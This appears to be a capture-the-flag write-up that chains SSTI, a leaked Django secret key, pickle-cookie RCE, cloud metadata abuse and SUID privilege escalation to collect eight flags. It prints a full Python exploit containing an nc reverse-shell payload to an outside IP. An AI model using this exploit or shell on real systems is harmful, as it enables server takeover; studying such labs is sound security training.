

We access the bank web page.
.png)
Accessing jobs link leads to port 8080 job portal managed by a 3rd party. SSTI found on job search bar
Its a django app and ssti leaked django secret key. Using this secret key we craft a rce payload and paste in the session cookie which gives us a reverse shell on the web server.
Public exploit available for django pickle rce https://github.com/0xuf/DJRCE.git Custom exploit is given below
import os
import sys
from django.contrib.sessions import serializers
from django.core.signing import loads, dumps, BadSignature
try:
import cPickle as pickle
except:
import pickle
os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'settings')
SECRET_KEY = "*yne&!o+c&nc)06jjr^jr^&+62ni=ugy1(d4$q55-(xb3#58qt"
def __reduce__(self):
return os.system, ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 54.209.27.50 4444
>/tmp/f",)
Poc = type(
"POC",
(object,),
{"__reduce__": __reduce__}
)
COOKIE = ...
try:
new_content = loads(COOKIE, key=SECRET_KEY, serializer=serializers.PickleSerializer,
salt='django.contrib.sessions.backends.signed_cookies')
except BadSignature:
print("SECRET_KEY does not match the sample cookie")
sys.exit()
new_content['testcookie'] = Poc()
payload = dumps(new_content, key=SECRET_KEY, serializer=serializers.PickleSerializer,
salt='django.contrib.sessions.backends.signed_cookies', compress=True)
print(f"Payload -> {payload}")
After gaining access to the server via RCE, checked the flag.
Flag1 - PickleRCE - > AdversaryVillage{B4NKAPP_C0MPR0MIS3D!} Then continued enumeration on the server and found a hosts file which prod ip and second flag.
Flag2 - hosts -> AdversaryVillage{PRODUCTION_VM_IP_F0R_FUTUR3!} The ip couldn’t be pinged from the server, so checked for other options and tried metadata endpoint.
Using the keys , listed
Flag3 - Lambda -> AdversaryVillage{L4MD4_FUNCTION_FOR_PROFIT} From lambda we get a jump server ip and credentials, SSHing to the server we get a flag from the user’s home dir.

Flag4 - Home jump -> AdversaryVillage{JUMP_VM_0WN3D} Enumerate more on the jump vm and found a kube related file which have another flag and details about prod-user.
Flag5 - kube properties -> AdversaryVillage{CLUST3R_ENV_EXF1LTR4T3D} SSHing to prod vm which we got earlier give us another flag. Flag6 - Home Prod -> AdversaryVillage{PR0D_VM_C0MPROMIS3D!}
Then enumerate more on system and found a SUID binary with interesting name.
Using privileged mode of bash give us access to ansible_user’s home directory which have flag.

Flag7 - Privesc -> AdversaryVillage{PR1V1L3GE_ESC4L4T10N!} Checking the bash file give us a google sheet id
Pasting it in sheets url gives us the final flag.
Flag8 -> sheets -> AdversaryVillage{3XFILTRAT3D_CR1T1C4L_1NF0}